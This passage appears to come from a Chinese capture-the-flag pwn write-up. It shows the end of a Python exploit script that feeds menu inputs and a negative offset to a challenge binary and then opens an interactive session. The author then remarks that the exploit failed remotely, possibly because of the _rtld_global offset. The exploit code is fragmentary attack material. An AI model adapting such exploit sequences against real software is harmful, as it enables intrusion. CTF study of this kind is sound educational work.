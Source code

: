 ```python
	sd('1\n')
	time.sleep(1)
	sd('0\n')
	time.sleep(1)
	
	sd('1\n')
	time.sleep(1)
	sd('26\n')
	time.sleep(1)
	
	sd('1\n')
	time.sleep(1)
	sd('0\n')
	time.sleep(1)
	
	sd('1\n')
	time.sleep(1)
	sd('0\n')
	time.sleep(1)
	
	sd('5\n')
	time.sleep(1)
	sd('1\n')
	time.sleep(1)
	
	sd('1\n')
	time.sleep(1)
	sd(str(one[0])+'\n')
	time.sleep(1)
	
	sd('6\n')
	time.sleep(1)

	sd('17\n')
    
	time.sleep(1)
	sd('-'+str(0xd07)+'\n')
	time.sleep(1)

	ia()

exp()

```



然而在比赛的时候本地、本地拉取最新的ubuntu 20.04 docker以及学长的本地都可以打通，远程还是段错误

赛后复现的时候发现本地 _rtld_global结构体的偏移需要改一下才能打通，或许远程打不通是因为 _rtld_global结构体的偏移？

